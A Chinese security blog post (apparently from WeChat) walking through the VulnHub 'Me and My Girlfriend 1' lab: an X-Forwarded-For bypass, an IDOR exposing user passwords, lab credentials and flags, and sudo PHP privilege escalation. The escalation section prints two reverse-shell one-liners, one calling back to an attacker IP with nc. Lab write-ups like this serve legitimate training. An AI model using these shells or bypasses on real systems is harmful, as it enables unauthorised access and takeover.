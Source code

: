 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/30osf9wRlbL9mDpys1Yfvg)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **51** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/Ldt92z9l0ib5hrGVbkqTQf7tjNPMNKYCKbLExK1Q9aZf5cGEx7O9rwsCXKqDtUCIKJEEoaVx8k8pj0uyibQTmzBQ/640?wx_fmt=png)

靶机地址：https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/

靶机难度：中级（CTF）

靶机发布日期：2019 年 12 月 13 日

靶机描述：

自 Bulldog Industries 遭受数次数据泄露以来已经过去了三年。在那时，他们已经恢复并重新命名为 Bulldog.social，这是一家新兴的社交媒体公司。您可以接受这一新挑战并在他们的生产 Web 服务器上扎根吗？

这是标准的启动到根。您唯一的目标是进入根目录并查看祝贺消息，该如何操作取决于您！

难度：中级，有些事情您可能从未见过。仔细考虑所有问题:)

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/tH6LKNTXQiam9BPF4CAxGkkF4oMO6F01N2mY3m2icBKRGRGgl6Xxw7kafb8NKaHofSr1zSM92FHbgT7dibZKUKNAw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfSAREPVibEia2cobtJkaRmwn2vC7WxqVa7iaUpgRUJ7cQuw9q1ahbIRsDaMz7VtB8icC1ec3funvK9mokEBibNOdrvLL/640?wx_fmt=svg)

一、信息收集

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8odrMaHNwBH3ZBODvlCnFNr99hcl2sicua6zeocqIFMXQbybsP6hibdDCA/640?wx_fmt=png)

我们在 VM 中需要确定攻击目标的 IP 地址，需要使用 nmap 获取目标 IP 地址：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oep85icQjohia8syI7JlSXQZeTv72zNGRAxIanPChavibMbu6tG89ZoJHg/640?wx_fmt=png)我们已经找到了此次 CTF 目标计算机 IP 地址：192.168.56.142

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oEGMdibG8sWibLemHmIFwAKyy5cicbrvqaBYZLDWewaOBwy32B48qciaCGA/640?wx_fmt=png)

nmap 发现 22、80 端口开放着...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oRUZqqNl6ojVPrJOFlFnVCkYewv6RyCjGviapHtSNyP2o6bxCnBE8B4g/640?wx_fmt=png)

该 WEB 只能在本地访问...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oTaJHJ8oldelTeHop4b4dx0YSwUYaRewJqtxAUNBju2k9q91icMGOdEg/640?wx_fmt=png)

是使用 x-forwarded-for 标头访问页面的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oUDTrh4Piciby3JiavOXHJPx91LEeInZ2KfO1RQJgwTLibqiciacaSA0BVheg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oaBOrdlp5IXgwF5KPthmNc43DjxPXHOnEicXj6eIV8rFRAqy7IHscichA/640?wx_fmt=png)

利用 burpsuite 分析发现，利用 x-forwarded-for 注入可以正常访问，但是每次点下页面都需要注入一次很烦... 就下载了插件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8osVPLqG30ooHGRM4UchLxufzIuibOh2T6zELvE6EFHheeZDE0R7G1VLA/640?wx_fmt=png)

在注册页面注册了 dayu 用户密码... 因为 dirb、nikto、gobuster 和 wfuzz 枚举出来的页面都没啥有用的信息，跳过...

可以看到配置文件标题表示为 user_id，对于 dayu 用户，它在 URL 中显示 user-id=12...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oQ6gNFuzfCjPQlgfIsZWF1q7wOwxGYefHFk2tAibDwFLG9HTUicNiasDCg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8odibwF1ajJOnMPRky4CjMSu4jUxzSpdFxicPFBbWHiaz4WT9vibWwcmzlOQ/640?wx_fmt=png)

这边我前面利用 sqlmap 测试了，并尝试使用 LFI，都没效果...

这边可以看到我把 12 改成了 1，选择 Profile，出现了 eweuhtandingan 用户名... 密码是密文，我尝试在前端源码修改下能否看到...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oQRXWVYtbsFkib4gTIicQ9Egicr4x65ngCAQMwzBUUXHXz1gdia2KTQYp9A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oDjnbjVYb0aXaSmib7I6akbfszQwrKB8xJ5eSHVxiafhsTlIwukMflHqA/640?wx_fmt=png)

passwd 修改为 text，可以看到明文出现了：

```
skuyatuh，用户：eweuhtandingan
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oANibaA4ia27TYDauZUpHiaHHmLfFT5QMzuCIxg5n28iazY3Pxe432GryPw/640?wx_fmt=png)

获得用户名：

```
aingmaung   密码：qwerty!!!
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oTIQBK1d5hfNA5qVCian5cIDFRslP7XWufYJlbcs8wIUGJzLpfIaxicqg/640?wx_fmt=png)

回到最初作者给的提示，可以看到存在 Alice 用户，直接找到即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8o2eUyYsQoiaWzoIM7K9AM0icLK5sKib8ibwmtp8YTK4icWMR7s5cFjKYE8hw/640?wx_fmt=png)

成功找到用户：

```
alice，密码：4lic3
```

![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfSAREPVibEia2cobtJkaRmwn2vC7WxqVa7iaUpgRUJ7cQuw9q1ahbIRsDaMz7VtB8icC1ec3funvK9mokEBibNOdrvLL/640?wx_fmt=svg)

二、提权

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oXVWddpWNhVngibJ04iaxeUAJ8KhiaAO9TFlDUCo61jeyknMa1icknibPanw/640?wx_fmt=png)

```
Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}
```

经过查看，在进来的目录下有两个隐藏文件，进入 cache 是空的，在 my_secret 下正常获得了 flag1...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oOJD8EEftMztvGcicc3l1ZkRWH9H1ywJf0Sk6MgAMNQosTs8cYXdiaOkQ/640?wx_fmt=png)

我本来想看看 html 下有什么 PHP 或者 shell 能直接利用的... 发现了三个隐藏文件，分析下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8ozcGxQKic3Co9K5sKiaAU0GgbZRr4ViaZ7xVmVfic6aVicH4lc1PibMZZ8mrg/640?wx_fmt=png)

？？？这里看到了 root 疑似密码：ctf_pasti_bisa，ceban_corp 应该是数据库密码？  .. 等会试试，先继续看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8owGqQgH2tL3mXzJ6NVdF5xB7dbFFEtE2WOKagGwr6K0dO43amV2beqg/640?wx_fmt=png)

在 halamanPerusahaan 隐藏文件中没啥利用的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8ovDJtQNdkbfFsAIOr7SHLlHYnP1Z0RPUaX3MrqDfFAUqLibLKWRoCHgg/640?wx_fmt=png)

在 misc 中 php 文件的意思就是访问 login 或者 register 是 login 就执行... 等等... 没啥用

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8o9uFZkUgJqiaKNTyRuLH40icK8RwpLvC1mrFopsNiaAs1icNjkzGRUFNYBw/640?wx_fmt=png)

这里尝试了三个密码，就只有 ctf_pasti_bisa 正确登录了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8o5SkNic0fGnW2xLMkkgDFeuPpsyHaOgNxSej4NQqdSmmdAwmc0uPicYQQ/640?wx_fmt=png)

这些信息都是知道的... 没啥用!!!

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8oGZTmP965MHLUne1Sm2qfndFqRa2RewF72OSsJBV5RUXtGpibqaB1dfQ/640?wx_fmt=png)

```
Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```

数据库没发现好的信息... 直接尝试进 root 用户，发现成功... 成功获得了 root 权限和查看了 flag1 和 2...

这边前面进来我就习惯的 sudo-l，发现还有另外提权的方法，继续讲...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8od3JvK0n1GJMKQ60Yicz3BEoBHwQcOJPFxj9Jmks5icEib4eoiadUsho8FA/640?wx_fmt=png)

```
(root) NOPASSWD: /usr/bin/php
```

可以看到这里的 php 可以提权... 将 php 置于交互模式，并执行一个反向 shell 即可提权...go （这里 shell 随便写就是，非常多方法）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNbYbrlnj8l37sIPGgBbp8o0WsoDl8k67qShQmApISoK6dDKww8moQBvKpCRfTaphZcibicqwF7Cbjg/640?wx_fmt=png)

```
sudo .... -a
echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.103 443 >/tmp/f");
```

成功提权.... 另附上：

```
[php提权参考链接](https://gtfobins.github.io/gtfobins/php/#sudo)
```

推荐链接里的：

```
php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

挺好用的，或者 CMD 等等....

![](https://mmbiz.qpic.cn/mmbiz_png/Ldt92z9l0ib5hrGVbkqTQf7tjNPMNKYCKbLExK1Q9aZf5cGEx7O9rwsCXKqDtUCIKJEEoaVx8k8pj0uyibQTmzBQ/640?wx_fmt=png)

这边我使用了两种方法来提权... 我分析了会，没发现别的方法了，如果有别的未发现的，希望能告知我，谢谢，一起学习，加油！！！

由于我们已经成功得到 root 权限查看 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/tH6LKNTXQiam9BPF4CAxGkkF4oMO6F01N2mY3m2icBKRGRGgl6Xxw7kafb8NKaHofSr1zSM92FHbgT7dibZKUKNAw/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)